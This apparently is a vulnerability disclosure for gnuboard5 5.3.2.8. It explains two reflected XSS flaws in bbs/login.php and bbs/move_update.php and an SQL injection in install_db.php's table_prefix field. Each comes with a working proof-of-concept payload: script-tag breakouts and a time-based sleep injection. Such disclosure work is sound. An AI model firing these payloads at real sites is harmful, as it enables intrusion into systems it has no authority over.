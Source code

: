 # gnuboard5-5.3.2.8 mul vuls

---

# limited Reflective xss in bbs/login.php

in bbs/login.php parameter `$url` only single quotes and double quotes are transferred.

and in function `check_url_host`, if url without start with http or https, the url parameter  will be treated as a path without any fiiter.

![image.png-48.9kB][1]

in functio0n `goto_url`

```
function goto_url($url)
{
    $url = str_replace("&amp;", "&", $url);
    //echo "<script> location.replace('$url'); </script>";

    if (!headers_sent())
        header('Location: '.$url);
    else {
        echo '<script>';
        echo 'location.replace("'.$url.'");';
        echo '</script>';
        echo '<noscript>';
        echo '<meta http-equiv="refresh" content="0;url='.$url.'" />';
        echo '</noscript>';
    }
    exit;
}
```

when `headers_sent()` return True，the parameter url will be directly spliced into javascript.

Although we can't use double quotes, we can escape directly with `</script>`

```
/bbs/login.php?url=www.baidu.com</script><script>alert(1)</script>
```

![image.png-15.6kB][2]

# Reflective xss in bbs/move_update.php

![image.png-140.1kB][3]

parameter `$act` input from common.php only single quotes and double quotes are transferred.

we can escape directly with `</script>`

```
act=12<%2fscript><script>alert(1)<%2fscript>
```

![image.png-63.7kB][4]


# SQL injection in install_db.php

parameter `$table_prefix` input from POST in install_db.php line 25

```
$table_prefix= safe_install_string_check($_POST['table_prefix']);
```

`$table_prefix` only be filtered by function `safe_install_string_check`. but function `safe_install_string_check` filter data without evil keyword which will lead to sql injection.

![image.png-276.2kB][5]

parameter `$table_prefix` will be inject into sql from gnuboard5.sql, we can use backquotes to close last sql. and inject a new sql to do anythings.

![image.png-247.4kB][6]

payload
```
mysql_host=localhost&mysql_user=root&mysql_pass=&mysql_db=g5&table_prefix=123`; select sleep(5)#
```

and then will sleep 5 secords.

![image.png-75.5kB][7]


  [1]: http://static.zybuluo.com/LoRexxar/e02bv2jkdb3gijhdcqat1rnm/image.png
  [2]: http://static.zybuluo.com/LoRexxar/vq2u6mgf9bun84pxsekmwgec/image.png
  [3]: http://static.zybuluo.com/LoRexxar/d6sentnepwpm0j32rjai3d3k/image.png
  [4]: http://static.zybuluo.com/LoRexxar/36tq8nzrov0p80fubntbemte/image.png
  [5]: http://static.zybuluo.com/LoRexxar/lx632ny1fi8y4mw9505ajuq8/image.png
  [6]: http://static.zybuluo.com/LoRexxar/aobinz82tf7pt5n9fjpbkgrd/image.png
  [7]: http://static.zybuluo.com/LoRexxar/gmozu557imphhf8srf2fugo2/image.png